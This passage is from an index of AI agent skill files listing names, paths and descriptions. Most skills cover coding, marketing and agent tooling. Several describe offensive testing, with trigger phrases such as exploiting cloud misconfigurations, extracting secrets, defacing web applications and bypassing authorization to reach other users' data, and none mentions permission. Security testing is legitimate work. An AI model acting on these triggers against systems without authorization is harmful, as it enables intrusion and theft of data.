        <description>"Autonomous agents are AI systems that can independently decompose goals, plan actions, execute tools, and self-correct without constant human guidance. The challenge isn't making them capable - it's making them reliable. Every extra decision multiplies failure probability.  This skill covers agent loops (ReAct, Plan-Execute), goal decomposition, reflection patterns, and production reliability. Key insight: compounding error rates kill autonomous agents. A 95% success rate per step drops to 60% b"</description>
    </item>
    <item id="avalonia-layout-zafiro" confidence="0.5">
        <name>avalonia-layout-zafiro</name>
        <path>.agent/skills/avalonia-layout-zafiro/SKILL.md</path>
        <description>Guidelines for modern Avalonia UI layout using Zafiro.Avalonia, emphasizing shared styles, generic components, and avoiding XAML redundancy.</description>
    </item>
    <item id="avalonia-viewmodels-zafiro" confidence="0.5">
        <name>avalonia-viewmodels-zafiro</name>
        <path>.agent/skills/avalonia-viewmodels-zafiro/SKILL.md</path>
        <description>Optimal ViewModel and Wizard creation patterns for Avalonia using Zafiro and ReactiveUI.</description>
    </item>
    <item id="avalonia-zafiro-development" confidence="0.5">
        <name>avalonia-zafiro-development</name>
        <path>.agent/skills/avalonia-zafiro-development/SKILL.md</path>
        <description>Mandatory skills, conventions, and behavioral rules for Avalonia UI development using the Zafiro toolkit.</description>
    </item>
    <item id="aws-penetration-testing" confidence="1.0">
        <name>AWS Penetration Testing</name>
        <path>.agent/skills/aws-penetration-testing/SKILL.md</path>
        <description>This skill should be used when the user asks to "pentest AWS", "test AWS security", "enumerate IAM", "exploit cloud infrastructure", "AWS privilege escalation", "S3 bucket testing", "metadata SSRF", "Lambda exploitation", or needs guidance on Amazon Web Services security assessment.</description>
    </item>
    <item id="aws-serverless" confidence="1.0">
        <name>aws-serverless</name>
        <path>.agent/skills/aws-serverless/SKILL.md</path>
        <description>"Specialized skill for building production-ready serverless applications on AWS. Covers Lambda functions, API Gateway, DynamoDB, SQS/SNS event-driven patterns, SAM/CDK deployment, and cold start optimization."</description>
    </item>
    <item id="azure-functions" confidence="0.5">
        <name>azure-functions</name>
        <path>.agent/skills/azure-functions/SKILL.md</path>
        <description>"Expert patterns for Azure Functions development including isolated worker model, Durable Functions orchestration, cold start optimization, and production patterns. Covers .NET, Python, and Node.js programming models. Use when: azure function, azure functions, durable functions, azure serverless, function app."</description>
    </item>
    <item id="backend-dev-guidelines" confidence="1.0">
        <name>backend-dev-guidelines</name>
        <path>.agent/skills/backend-dev-guidelines/SKILL.md</path>
        <description>Opinionated backend development standards for Node.js + Express + TypeScript microservices. Covers layered architecture, BaseController pattern, dependency injection, Prisma repositories, Zod validation, unifiedConfig, Sentry error tracking, async safety, and testing discipline.</description>
    </item>
    <item id="bash-linux" confidence="0.5">
        <name>bash-linux</name>
        <path>.agent/skills/bash-linux/SKILL.md</path>
        <description>Bash/Linux terminal patterns. Critical commands, piping, error handling, scripting. Use when working on macOS or Linux systems.</description>
    </item>
    <item id="behavioral-modes" confidence="1.0">
        <name>behavioral-modes</name>
        <path>.agent/skills/behavioral-modes/SKILL.md</path>
        <description>AI operational modes (brainstorm, implement, debug, review, teach, ship, orchestrate). Use to adapt behavior based on task type.</description>
    </item>
    <item id="blockrun" confidence="1.0">
        <name>blockrun</name>
        <path>.agent/skills/blockrun/SKILL.md</path>
        <description>Use when user needs capabilities Claude lacks (image generation, real-time X/Twitter data) or explicitly requests external models ("blockrun", "use grok", "use gpt", "dall-e", "deepseek")</description>
    </item>
    <item id="brainstorming" confidence="1.0">
        <name>brainstorming</name>
        <path>.agent/skills/brainstorming/SKILL.md</path>
        <description>&gt;</description>
    </item>
    <item id="brand-guidelines-anthropic" confidence="0.5">
        <name>brand-guidelines</name>
        <path>.agent/skills/brand-guidelines-anthropic/SKILL.md</path>
        <description>Applies Anthropic's official brand colors and typography to any sort of artifact that may benefit from having Anthropic's look-and-feel. Use it when brand colors or style guidelines, visual formatting, or company design standards apply.</description>
    </item>
    <item id="brand-guidelines-community" confidence="0.5">
        <name>brand-guidelines</name>
        <path>.agent/skills/brand-guidelines-community/SKILL.md</path>
        <description>Applies Anthropic's official brand colors and typography to any sort of artifact that may benefit from having Anthropic's look-and-feel. Use it when brand colors or style guidelines, visual formatting, or company design standards apply.</description>
    </item>
    <item id="broken-authentication" confidence="1.0">
        <name>Broken Authentication Testing</name>
        <path>.agent/skills/broken-authentication/SKILL.md</path>
        <description>This skill should be used when the user asks to "test for broken authentication vulnerabilities", "assess session management security", "perform credential stuffing tests", "evaluate password policies", "test for session fixation", or "identify authentication bypass flaws". It provides comprehensive techniques for identifying authentication and session management weaknesses in web applications.</description>
    </item>
    <item id="browser-automation" confidence="0.5">
        <name>browser-automation</name>
        <path>.agent/skills/browser-automation/SKILL.md</path>
        <description>"Browser automation powers web testing, scraping, and AI agent interactions. The difference between a flaky script and a reliable system comes down to understanding selectors, waiting strategies, and anti-detection patterns.  This skill covers Playwright (recommended) and Puppeteer, with patterns for testing, scraping, and agentic browser control. Key insight: Playwright won the framework war. Unless you need Puppeteer's stealth ecosystem or are Chrome-only, Playwright is the better choice in 202"</description>
    </item>
    <item id="browser-extension-builder" confidence="1.0">
        <name>browser-extension-builder</name>
        <path>.agent/skills/browser-extension-builder/SKILL.md</path>
        <description>"Expert in building browser extensions that solve real problems - Chrome, Firefox, and cross-browser extensions. Covers extension architecture, manifest v3, content scripts, popup UIs, monetization strategies, and Chrome Web Store publishing. Use when: browser extension, chrome extension, firefox addon, extension, manifest v3."</description>
    </item>
    <item id="bullmq-specialist" confidence="0.5">
        <name>bullmq-specialist</name>
        <path>.agent/skills/bullmq-specialist/SKILL.md</path>
        <description>"BullMQ expert for Redis-backed job queues, background processing, and reliable async execution in Node.js/TypeScript applications. Use when: bullmq, bull queue, redis queue, background job, job queue."</description>
    </item>
    <item id="bun-development" confidence="1.0">
        <name>bun-development</name>
        <path>.agent/skills/bun-development/SKILL.md</path>
        <description>"Modern JavaScript/TypeScript development with Bun runtime. Covers package management, bundling, testing, and migration from Node.js. Use when working with Bun, optimizing JS/TS development speed, or migrating from Node.js to Bun."</description>
    </item>
    <item id="burp-suite-testing" confidence="1.0">
        <name>Burp Suite Web Application Testing</name>
        <path>.agent/skills/burp-suite-testing/SKILL.md</path>
        <description>This skill should be used when the user asks to "intercept HTTP traffic", "modify web requests", "use Burp Suite for testing", "perform web vulnerability scanning", "test with Burp Repeater", "analyze HTTP history", or "configure proxy for web testing". It provides comprehensive guidance for using Burp Suite's core features for web application security testing.</description>
    </item>
    <item id="busybox-on-windows" confidence="0.5">
        <name>busybox-on-windows</name>
        <path>.agent/skills/busybox-on-windows/SKILL.md</path>
        <description>How to use a Win32 build of BusyBox to run many of the standard UNIX command line tools on Windows.</description>
    </item>
    <item id="canvas-design" confidence="0.5">
        <name>canvas-design</name>
        <path>.agent/skills/canvas-design/SKILL.md</path>
        <description>Create beautiful visual art in .png and .pdf documents using design philosophy. You should use this skill when the user asks to create a poster, piece of art, design, or other static piece. Create original visual designs, never copying existing artists' work to avoid copyright violations.</description>
    </item>
    <item id="cc-skill-backend-patterns" confidence="0.5">
        <name>backend-patterns</name>
        <path>.agent/skills/cc-skill-backend-patterns/SKILL.md</path>
        <description>Backend architecture patterns, API design, database optimization, and server-side best practices for Node.js, Express, and Next.js API routes.</description>
    </item>
    <item id="cc-skill-clickhouse-io" confidence="0.5">
        <name>clickhouse-io</name>
        <path>.agent/skills/cc-skill-clickhouse-io/SKILL.md</path>
        <description>ClickHouse database patterns, query optimization, analytics, and data engineering best practices for high-performance analytical workloads.</description>
    </item>
    <item id="cc-skill-coding-standards" confidence="0.5">
        <name>coding-standards</name>
        <path>.agent/skills/cc-skill-coding-standards/SKILL.md</path>
        <description>Universal coding standards, best practices, and patterns for TypeScript, JavaScript, React, and Node.js development.</description>
    </item>
    <item id="cc-skill-continuous-learning" confidence="0.5">
        <name>cc-skill-continuous-learning</name>
        <path>.agent/skills/cc-skill-continuous-learning/SKILL.md</path>
        <description>Development skill from everything-claude-code</description>
    </item>
    <item id="cc-skill-frontend-patterns" confidence="0.5">
        <name>frontend-patterns</name>
        <path>.agent/skills/cc-skill-frontend-patterns/SKILL.md</path>
        <description>Frontend development patterns for React, Next.js, state management, performance optimization, and UI best practices.</description>
    </item>
    <item id="cc-skill-project-guidelines-example" confidence="1.0">
        <name>cc-skill-project-guidelines-example</name>
        <path>.agent/skills/cc-skill-project-guidelines-example/SKILL.md</path>
        <description>Project Guidelines Skill (Example)</description>
    </item>
    <item id="cc-skill-security-review" confidence="1.0">
        <name>security-review</name>
        <path>.agent/skills/cc-skill-security-review/SKILL.md</path>
        <description>Use this skill when adding authentication, handling user input, working with secrets, creating API endpoints, or implementing payment/sensitive features. Provides comprehensive security checklist and patterns.</description>
    </item>
    <item id="cc-skill-strategic-compact" confidence="0.5">
        <name>cc-skill-strategic-compact</name>
        <path>.agent/skills/cc-skill-strategic-compact/SKILL.md</path>
        <description>Development skill from everything-claude-code</description>
    </item>
    <item id="claude-code-guide" confidence="1.0">
        <name>Claude Code Guide</name>
        <path>.agent/skills/claude-code-guide/SKILL.md</path>
        <description>Master guide for using Claude Code effectively. Includes configuration templates, prompting strategies "Thinking" keywords, debugging techniques, and best practices for interacting with the agent.</description>
    </item>
    <item id="claude-d3js-skill" confidence="1.0">
        <name>d3-viz</name>
        <path>.agent/skills/claude-d3js-skill/SKILL.md</path>
        <description>Creating interactive data visualisations using d3.js. This skill should be used when creating custom charts, graphs, network diagrams, geographic visualisations, or any complex SVG-based data visualisation that requires fine-grained control over visual elements, transitions, or interactions. Use this for bespoke visualisations beyond standard charting libraries, whether in React, Vue, Svelte, vanilla JavaScript, or any other environment.</description>
    </item>
    <item id="clean-code" confidence="0.5">
        <name>clean-code</name>
        <path>.agent/skills/clean-code/SKILL.md</path>
        <description>Pragmatic coding standards - concise, direct, no over-engineering, no unnecessary comments</description>
    </item>
    <item id="clerk-auth" confidence="0.5">
        <name>clerk-auth</name>
        <path>.agent/skills/clerk-auth/SKILL.md</path>
        <description>"Expert patterns for Clerk auth implementation, middleware, organizations, webhooks, and user sync Use when: adding authentication, clerk auth, user authentication, sign in, sign up."</description>
    </item>
    <item id="cloud-penetration-testing" confidence="1.0">
        <name>Cloud Penetration Testing</name>
        <path>.agent/skills/cloud-penetration-testing/SKILL.md</path>
        <description>This skill should be used when the user asks to "perform cloud penetration testing", "assess Azure or AWS or GCP security", "enumerate cloud resources", "exploit cloud misconfigurations", "test O365 security", "extract secrets from cloud environments", or "audit cloud infrastructure". It provides comprehensive techniques for security assessment across major cloud platforms.</description>
    </item>
    <item id="code-review-checklist" confidence="1.0">
        <name>code-review-checklist</name>
        <path>.agent/skills/code-review-checklist/SKILL.md</path>
        <description>"Comprehensive checklist for conducting thorough code reviews covering functionality, security, performance, and maintainability"</description>
    </item>
    <item id="codebase-mapper" confidence="0.5">
        <name>GSD Codebase Mapper</name>
        <path>.agent/skills/codebase-mapper/SKILL.md</path>
        <description>Analyzes existing codebases to understand structure, patterns, and technical debt</description>
    </item>
    <item id="codex-review" confidence="1.0">
        <name>codex-review</name>
        <path>.agent/skills/codex-review/SKILL.md</path>
        <description>Professional code review with auto CHANGELOG generation, integrated with Codex AI</description>
    </item>
    <item id="competitor-alternatives" confidence="0.5">
        <name>competitor-alternatives</name>
        <path>.agent/skills/competitor-alternatives/SKILL.md</path>
        <description>"When the user wants to create competitor comparison or alternative pages for SEO and sales enablement. Also use when the user mentions 'alternative page,' 'vs page,' 'competitor comparison,' 'comparison page,' '[Product] vs [Product],' '[Product] alternative,' or 'competitive landing pages.' Covers four formats: singular alternative, plural alternatives, you vs competitor, and competitor vs competitor. Emphasizes deep research, modular content architecture, and varied section types beyond feature tables."</description>
    </item>
    <item id="computer-use-agents" confidence="1.0">
        <name>computer-use-agents</name>
        <path>.agent/skills/computer-use-agents/SKILL.md</path>
        <description>"Build AI agents that interact with computers like humans do - viewing screens, moving cursors, clicking buttons, and typing text. Covers Anthropic's Computer Use, OpenAI's Operator/CUA, and open-source alternatives. Critical focus on sandboxing, security, and handling the unique challenges of vision-based control. Use when: computer use, desktop automation agent, screen control AI, vision-based agent, GUI automation."</description>
    </item>
    <item id="concise-planning" confidence="1.0">
        <name>concise-planning</name>
        <path>.agent/skills/concise-planning/SKILL.md</path>
        <description>Use when a user asks for a plan for a coding task, to generate a clear, actionable, and atomic checklist.</description>
    </item>
    <item id="content-creator" confidence="1.0">
        <name>content-creator</name>
        <path>.agent/skills/content-creator/SKILL.md</path>
        <description>Create SEO-optimized marketing content with consistent brand voice. Includes brand voice analyzer, SEO optimizer, content frameworks, and social media templates. Use when writing blog posts, creating social media content, analyzing brand voice, optimizing SEO, planning content calendars, or when user mentions content creation, brand voice, SEO optimization, social media marketing, or content strategy.</description>
    </item>
    <item id="context-health-monitor" confidence="1.0">
        <name>Context Health Monitor</name>
        <path>.agent/skills/context-health-monitor/SKILL.md</path>
        <description>Monitors context complexity and triggers state dumps before quality degrades</description>
    </item>
    <item id="context-window-management" confidence="0.5">
        <name>context-window-management</name>
        <path>.agent/skills/context-window-management/SKILL.md</path>
        <description>"Strategies for managing LLM context windows including summarization, trimming, routing, and avoiding context rot Use when: context window, token limit, context management, context engineering, long context."</description>
    </item>
    <item id="context7-auto-research" confidence="1.0">
        <name>context7-auto-research</name>
        <path>.agent/skills/context7-auto-research/SKILL.md</path>
        <description>Automatically fetch latest library/framework documentation for Claude Code via Context7 API</description>
    </item>
    <item id="conversation-memory" confidence="0.5">
        <name>conversation-memory</name>
        <path>.agent/skills/conversation-memory/SKILL.md</path>
        <description>"Persistent memory systems for LLM conversations including short-term, long-term, and entity-based memory Use when: conversation memory, remember, memory persistence, long-term memory, chat history."</description>
    </item>
    <item id="copy-editing" confidence="1.0">
        <name>copy-editing</name>
        <path>.agent/skills/copy-editing/SKILL.md</path>
        <description>"When the user wants to edit, review, or improve existing marketing copy. Also use when the user mentions 'edit this copy,' 'review my copy,' 'copy feedback,' 'proofread,' 'polish this,' 'make this better,' or 'copy sweep.' This skill provides a systematic approach to editing marketing copy through multiple focused passes."</description>
    </item>
    <item id="copywriting" confidence="1.0">
        <name>copywriting</name>
        <path>.agent/skills/copywriting/SKILL.md</path>
        <description>&gt;</description>
    </item>
    <item id="core-components" confidence="0.5">
        <name>core-components</name>
        <path>.agent/skills/core-components/SKILL.md</path>
        <description>Core component library and design system patterns. Use when building UI, using design tokens, or working with the component library.</description>
    </item>
    <item id="crewai" confidence="1.0">
        <name>crewai</name>
        <path>.agent/skills/crewai/SKILL.md</path>
        <description>"Expert in CrewAI - the leading role-based multi-agent framework used by 60% of Fortune 500 companies. Covers agent design with roles and goals, task definition, crew orchestration, process types (sequential, hierarchical, parallel), memory systems, and flows for complex workflows. Essential for building collaborative AI agent teams. Use when: crewai, multi-agent team, agent roles, crew of agents, role-based agents."</description>
    </item>
    <item id="daily-news-report" confidence="1.0">
        <name>daily-news-report</name>
        <path>.agent/skills/daily-news-report/SKILL.md</path>
        <description>Scrapes content based on a preset URL list, filters high-quality technical information, and generates daily Markdown reports.</description>
    </item>
    <item id="database-design" confidence="0.5">
        <name>database-design</name>
        <path>.agent/skills/database-design/SKILL.md</path>
        <description>Database design principles and decision-making. Schema design, indexing strategy, ORM selection, serverless databases.</description>
    </item>
    <item id="debugger" confidence="0.5">
        <name>GSD Debugger</name>
        <path>.agent/skills/debugger/SKILL.md</path>
        <description>Systematic debugging with persistent state and fresh context advantages</description>
    </item>
    <item id="deployment-procedures" confidence="0.5">
        <name>deployment-procedures</name>
        <path>.agent/skills/deployment-procedures/SKILL.md</path>
        <description>Production deployment principles and decision-making. Safe deployment workflows, rollback strategies, and verification. Teaches thinking, not scripts.</description>
    </item>
    <item id="design-orchestration" confidence="1.0">
        <name>design-orchestration</name>
        <path>.agent/skills/design-orchestration/SKILL.md</path>
        <description>&gt;</description>
    </item>
    <item id="discord-bot-architect" confidence="1.0">
        <name>discord-bot-architect</name>
        <path>.agent/skills/discord-bot-architect/SKILL.md</path>
        <description>"Specialized skill for building production-ready Discord bots. Covers Discord.js (JavaScript) and Pycord (Python), gateway intents, slash commands, interactive components, rate limiting, and sharding."</description>
    </item>
    <item id="dispatching-parallel-agents" confidence="1.0">
        <name>dispatching-parallel-agents</name>
        <path>.agent/skills/dispatching-parallel-agents/SKILL.md</path>
        <description>Use when facing 2+ independent tasks that can be worked on without shared state or sequential dependencies</description>
    </item>
    <item id="doc-coauthoring" confidence="1.0">
        <name>doc-coauthoring</name>
        <path>.agent/skills/doc-coauthoring/SKILL.md</path>
        <description>Guide users through a structured workflow for co-authoring documentation. Use when user wants to write documentation, proposals, technical specs, decision docs, or similar structured content. This workflow helps users efficiently transfer context, refine content through iteration, and verify the doc works for readers. Trigger when user mentions writing docs, creating proposals, drafting specs, or similar documentation tasks.</description>
    </item>
    <item id="docker-expert" confidence="1.0">
        <name>docker-expert</name>
        <path>.agent/skills/docker-expert/SKILL.md</path>
        <description>Docker containerization expert with deep knowledge of multi-stage builds, image optimization, container security, Docker Compose orchestration, and production deployment patterns. Use PROACTIVELY for Dockerfile optimization, container issues, image size problems, security hardening, networking, and orchestration challenges.</description>
    </item>
    <item id="documentation-templates" confidence="0.5">
        <name>documentation-templates</name>
        <path>.agent/skills/documentation-templates/SKILL.md</path>
        <description>Documentation templates and structure guidelines. README, API docs, code comments, and AI-friendly documentation.</description>
    </item>
    <item id="docx" confidence="0.5">
        <name>docx</name>
        <path>.agent/skills/docx/SKILL.md</path>
        <description>"Comprehensive document creation, editing, and analysis with support for tracked changes, comments, formatting preservation, and text extraction. When Claude needs to work with professional documents (.docx files) for: (1) Creating new documents, (2) Modifying or editing content, (3) Working with tracked changes, (4) Adding comments, or any other document tasks"</description>
    </item>
    <item id="docx-official" confidence="0.5">
        <name>docx</name>
        <path>.agent/skills/docx-official/SKILL.md</path>
        <description>"Comprehensive document creation, editing, and analysis with support for tracked changes, comments, formatting preservation, and text extraction. When Claude needs to work with professional documents (.docx files) for: (1) Creating new documents, (2) Modifying or editing content, (3) Working with tracked changes, (4) Adding comments, or any other document tasks"</description>
    </item>
    <item id="email-sequence" confidence="1.0">
        <name>email-sequence</name>
        <path>.agent/skills/email-sequence/SKILL.md</path>
        <description>When the user wants to create or optimize an email sequence, drip campaign, automated email flow, or lifecycle email program. Also use when the user mentions "email sequence," "drip campaign," "nurture sequence," "onboarding emails," "welcome sequence," "re-engagement emails," "email automation," or "lifecycle emails." For in-app onboarding, see onboarding-cro.</description>
    </item>
    <item id="email-systems" confidence="0.5">
        <name>email-systems</name>
        <path>.agent/skills/email-systems/SKILL.md</path>
        <description>"Email has the highest ROI of any marketing channel. $36 for every $1 spent. Yet most startups treat it as an afterthought - bulk blasts, no personalization, landing in spam folders.  This skill covers transactional email that works, marketing automation that converts, deliverability that reaches inboxes, and the infrastructure decisions that scale. Use when: keywords, file_patterns, code_patterns."</description>
    </item>
    <item id="empirical-validation" confidence="0.5">
        <name>Empirical Validation</name>
        <path>.agent/skills/empirical-validation/SKILL.md</path>
        <description>Requires proof before marking work complete — no "trust me, it works"</description>
    </item>
    <item id="environment-setup-guide" confidence="1.0">
        <name>environment-setup-guide</name>
        <path>.agent/skills/environment-setup-guide/SKILL.md</path>
        <description>"Guide developers through setting up development environments with proper tools, dependencies, and configurations"</description>
    </item>
    <item id="ethical-hacking-methodology" confidence="1.0">
        <name>Ethical Hacking Methodology</name>
        <path>.agent/skills/ethical-hacking-methodology/SKILL.md</path>
        <description>This skill should be used when the user asks to "learn ethical hacking", "understand penetration testing lifecycle", "perform reconnaissance", "conduct security scanning", "exploit vulnerabilities", or "write penetration test reports". It provides comprehensive ethical hacking methodology and techniques.</description>
    </item>
    <item id="exa-search" confidence="1.0">
        <name>exa-search</name>
        <path>.agent/skills/exa-search/SKILL.md</path>
        <description>Semantic search, similar content discovery, and structured research using Exa API</description>
    </item>
    <item id="executing-plans" confidence="0.5">
        <name>executing-plans</name>
        <path>.agent/skills/executing-plans/SKILL.md</path>
        <description>Use when you have a written implementation plan to execute in a separate session with review checkpoints</description>
    </item>
    <item id="executor" confidence="1.0">
        <name>GSD Executor</name>
        <path>.agent/skills/executor/SKILL.md</path>
        <description>Executes GSD plans with atomic commits, deviation handling, checkpoint protocols, and state management</description>
    </item>
    <item id="file-organizer" confidence="1.0">
        <name>file-organizer</name>
        <path>.agent/skills/file-organizer/SKILL.md</path>
        <description>Intelligently organizes files and folders by understanding context, finding duplicates, and suggesting better organizational structures. Use when user wants to clean up directories, organize downloads, remove duplicates, or restructure projects.</description>
    </item>
    <item id="file-path-traversal" confidence="1.0">
        <name>File Path Traversal Testing</name>
        <path>.agent/skills/file-path-traversal/SKILL.md</path>
        <description>This skill should be used when the user asks to "test for directory traversal", "exploit path traversal vulnerabilities", "read arbitrary files through web applications", "find LFI vulnerabilities", or "access files outside web root". It provides comprehensive file path traversal attack and testing methodologies.</description>
    </item>
    <item id="file-uploads" confidence="0.5">
        <name>file-uploads</name>
        <path>.agent/skills/file-uploads/SKILL.md</path>
        <description>"Expert at handling file uploads and cloud storage. Covers S3, Cloudflare R2, presigned URLs, multipart uploads, and image optimization. Knows how to handle large files without blocking. Use when: file upload, S3, R2, presigned URL, multipart."</description>
    </item>
    <item id="finishing-a-development-branch" confidence="0.5">
        <name>finishing-a-development-branch</name>
        <path>.agent/skills/finishing-a-development-branch/SKILL.md</path>
        <description>Use when implementation is complete, all tests pass, and you need to decide how to integrate the work - guides completion of development work by presenting structured options for merge, PR, or cleanup</description>
    </item>
    <item id="firebase" confidence="0.5">
        <name>firebase</name>
        <path>.agent/skills/firebase/SKILL.md</path>
        <description>"Firebase gives you a complete backend in minutes - auth, database, storage, functions, hosting. But the ease of setup hides real complexity. Security rules are your last line of defense, and they're often wrong. Firestore queries are limited, and you learn this after you've designed your data model.  This skill covers Firebase Authentication, Firestore, Realtime Database, Cloud Functions, Cloud Storage, and Firebase Hosting. Key insight: Firebase is optimized for read-heavy, denormalized data. I"</description>
    </item>
    <item id="firecrawl-scraper" confidence="1.0">
        <name>firecrawl-scraper</name>
        <path>.agent/skills/firecrawl-scraper/SKILL.md</path>
        <description>Deep web scraping, screenshots, PDF parsing, and website crawling using Firecrawl API</description>
    </item>
    <item id="form-cro" confidence="1.0">
        <name>form-cro</name>
        <path>.agent/skills/form-cro/SKILL.md</path>
        <description>&gt;</description>
    </item>
    <item id="free-tool-strategy" confidence="0.5">
        <name>free-tool-strategy</name>
        <path>.agent/skills/free-tool-strategy/SKILL.md</path>
        <description>When the user wants to plan, evaluate, or build a free tool for marketing purposes — lead generation, SEO value, or brand awareness. Also use when the user mentions "engineering as marketing," "free tool," "marketing tool," "calculator," "generator," "interactive tool," "lead gen tool," "build a tool for leads," or "free resource." This skill bridges engineering and marketing — useful for founders and technical marketers.</description>
    </item>
    <item id="frontend-design" confidence="0.5">
        <name>frontend-design</name>
        <path>.agent/skills/frontend-design/SKILL.md</path>
        <description>Create distinctive, production-grade frontend interfaces with intentional aesthetics, high craft, and non-generic visual identity. Use when building or styling web UIs, components, pages, dashboards, or frontend applications.</description>
    </item>
    <item id="frontend-dev-guidelines" confidence="1.0">
        <name>frontend-dev-guidelines</name>
        <path>.agent/skills/frontend-dev-guidelines/SKILL.md</path>
        <description>Opinionated frontend development standards for modern React + TypeScript applications. Covers Suspense-first data fetching, lazy loading, feature-based architecture, MUI v7 styling, TanStack Router, performance optimization, and strict TypeScript practices.</description>
    </item>
    <item id="game-development" confidence="1.0">
        <name>game-development</name>
        <path>.agent/skills/game-development/SKILL.md</path>
        <description>Game development orchestrator. Routes to platform-specific skills based on project needs.</description>
    </item>
    <item id="gcp-cloud-run" confidence="1.0">
        <name>gcp-cloud-run</name>
        <path>.agent/skills/gcp-cloud-run/SKILL.md</path>
        <description>"Specialized skill for building production-ready serverless applications on GCP. Covers Cloud Run services (containerized), Cloud Run Functions (event-driven), cold start optimization, and event-driven architecture with Pub/Sub."</description>
    </item>
    <item id="geo-fundamentals" confidence="0.5">
        <name>geo-fundamentals</name>
        <path>.agent/skills/geo-fundamentals/SKILL.md</path>
        <description>Generative Engine Optimization for AI search engines (ChatGPT, Claude, Perplexity).</description>
    </item>
    <item id="git-pushing" confidence="1.0">
        <name>git-pushing</name>
        <path>.agent/skills/git-pushing/SKILL.md</path>
        <description>Stage, commit, and push git changes with conventional commit messages. Use when user wants to commit and push changes, mentions pushing to remote, or asks to save and push their work. Also activates when user says "push changes", "commit and push", "push this", "push to github", or similar git workflow requests.</description>
    </item>
    <item id="github-workflow-automation" confidence="1.0">
        <name>github-workflow-automation</name>
        <path>.agent/skills/github-workflow-automation/SKILL.md</path>
        <description>"Automate GitHub workflows with AI assistance. Includes PR reviews, issue triage, CI/CD integration, and Git operations. Use when automating GitHub workflows, setting up PR review automation, creating GitHub Actions, or triaging issues."</description>
    </item>
    <item id="graphql" confidence="0.5">
        <name>graphql</name>
        <path>.agent/skills/graphql/SKILL.md</path>
        <description>"GraphQL gives clients exactly the data they need - no more, no less. One endpoint, typed schema, introspection. But the flexibility that makes it powerful also makes it dangerous. Without proper controls, clients can craft queries that bring down your server.  This skill covers schema design, resolvers, DataLoader for N+1 prevention, federation for microservices, and client integration with Apollo/urql. Key insight: GraphQL is a contract. The schema is the API documentation. Design it carefully."</description>
    </item>
    <item id="html-injection-testing" confidence="1.0">
        <name>HTML Injection Testing</name>
        <path>.agent/skills/html-injection-testing/SKILL.md</path>
        <description>This skill should be used when the user asks to "test for HTML injection", "inject HTML into web pages", "perform HTML injection attacks", "deface web applications", or "test content injection vulnerabilities". It provides comprehensive HTML injection attack techniques and testing methodologies.</description>
    </item>
    <item id="hubspot-integration" confidence="0.5">
        <name>hubspot-integration</name>
        <path>.agent/skills/hubspot-integration/SKILL.md</path>
        <description>"Expert patterns for HubSpot CRM integration including OAuth authentication, CRM objects, associations, batch operations, webhooks, and custom objects. Covers Node.js and Python SDKs. Use when: hubspot, hubspot api, hubspot crm, hubspot integration, contacts api."</description>
    </item>
    <item id="i18n-localization" confidence="1.0">
        <name>i18n-localization</name>
        <path>.agent/skills/i18n-localization/SKILL.md</path>
        <description>Internationalization and localization patterns. Detecting hardcoded strings, managing translations, locale files, RTL support.</description>
    </item>
    <item id="idor-testing" confidence="1.0">
        <name>IDOR Vulnerability Testing</name>
        <path>.agent/skills/idor-testing/SKILL.md</path>
        <description>This skill should be used when the user asks to "test for insecure direct object references," "find IDOR vulnerabilities," "exploit broken access control," "enumerate user IDs or object references," or "bypass authorization to access other users' data." It provides comprehensive guidance for detecting, exploiting, and remediating IDOR vulnerabilities in web applications.</description>
    </item>
    <item id="infinite-gratitude" confidence="1.0">
        <name>Infinite Gratitude</name>
        <path>.agent/skills/infinite-gratitude/SKILL.md</path>
        <description>Multi-agent research skill for parallel research execution (10 agents, battle-tested with real case studies).</description>
    </item>
    <item id="inngest" confidence="0.5">
        <name>inngest</name>
        <path>.agent/skills/inngest/SKILL.md</path>
        <description>"Inngest expert for serverless-first background jobs, event-driven workflows, and durable execution without managing queues or workers. Use when: inngest, serverless background job, event-driven workflow, step function, durable execution."</description>
    </item>
    <item id="interactive-portfolio" confidence="1.0">
        <name>interactive-portfolio</name>
        <path>.agent/skills/interactive-portfolio/SKILL.md</path>
        <description>"Expert in building portfolios that actually land jobs and clients - not just showing work, but creating memorable experiences. Covers developer portfolios, designer portfolios, creative portfolios, and portfolios that convert visitors into opportunities. Use when: portfolio, personal website, showcase work, developer portfolio, designer portfolio."</description>
    </item>
    <item id="internal-comms-anthropic" confidence="1.0">
        <name>internal-comms</name>
        <path>.agent/skills/internal-comms-anthropic/SKILL.md</path>
        <description>A set of resources to help me write all kinds of internal communications, using the formats that my company likes to use. Claude should use this skill whenever asked to write some sort of internal communications (status reports, leadership updates, 3P updates, company newsletters, FAQs, incident reports, project updates, etc.).</description>
    </item>
    <item id="internal-comms-community" confidence="1.0">
        <name>internal-comms</name>
        <path>.agent/skills/internal-comms-community/SKILL.md</path>
        <description>A set of resources to help me write all kinds of internal communications, using the formats that my company likes to use. Claude should use this skill whenever asked to write some sort of internal communications (status reports, leadership updates, 3P updates, company newsletters, FAQs, incident reports, project updates, etc.).</description>
    </item>
    <item id="javascript-mastery" confidence="1.0">
        <name>javascript-mastery</name>
        <path>.agent/skills/javascript-mastery/SKILL.md</path>
        <description>"Comprehensive JavaScript reference covering 33+ essential concepts every developer should know. From fundamentals like primitives and closures to advanced patterns like async/await and functional programming. Use when explaining JS concepts, debugging JavaScript issues, or teaching JavaScript fundamentals."</description>
    </item>
    <item id="kaizen" confidence="1.0">
        <name>kaizen</name>
        <path>.agent/skills/kaizen/SKILL.md</path>
        <description>Guide for continuous improvement, error proofing, and standardization. Use this skill when the user wants to improve code quality, refactor, or discuss process improvements.</description>
    </item>
    <item id="langfuse" confidence="1.0">
        <name>langfuse</name>
        <path>.agent/skills/langfuse/SKILL.md</path>
        <description>"Expert in Langfuse - the open-source LLM observability platform. Covers tracing, prompt management, evaluation, datasets, and integration with LangChain, LlamaIndex, and OpenAI. Essential for debugging, monitoring, and improving LLM applications in production. Use when: langfuse, llm observability, llm tracing, prompt management, llm evaluation."</description>
    </item>
    <item id="langgraph" confidence="1.0">
        <name>langgraph</name>
        <path>.agent/skills/langgraph/SKILL.md</path>
        <description>"Expert in LangGraph - the production-grade framework for building stateful, multi-actor AI applications. Covers graph construction, state management, cycles and branches, persistence with checkpointers, human-in-the-loop patterns, and the ReAct agent pattern. Used in production at LinkedIn, Uber, and 400+ companies. This is LangChain's recommended approach for building agents. Use when: langgraph, langchain agent, stateful agent, agent graph, react agent."</description>
    </item>
    <item id="last30days" confidence="0.5">
        <name>last30days</name>
        <path>.agent/skills/last30days/SKILL.md</path>
        <description>Research a topic from the last 30 days on Reddit + X + Web, become an expert, and write copy-paste-ready prompts for the user's target tool.</description>
    </item>
